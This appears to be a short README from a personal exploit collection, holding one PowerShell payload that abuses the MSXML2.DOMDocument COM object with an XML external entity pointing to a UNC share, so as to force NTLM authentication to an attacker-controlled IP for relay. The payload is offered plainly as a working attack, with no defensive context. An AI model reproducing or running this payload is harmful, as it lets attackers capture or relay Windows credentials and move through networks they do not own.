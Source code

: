 ## My random exploits / payloads

### ntlm relay attack via XXE utilizing COM object MSXML2.DOMDocument (Thanks to @[Frostb1te](https://twitter.com/frostb1ten) for helping me learn about ntlm relay)

```
$xxe=New-Object -ComObject MSXML2.DOMDocument
$xxe.loadXML("<!DOCTYPE test [<!ENTITY xxe SYSTEM '\\IP\share'>]><root><test>&xxe;</test></root>")
```
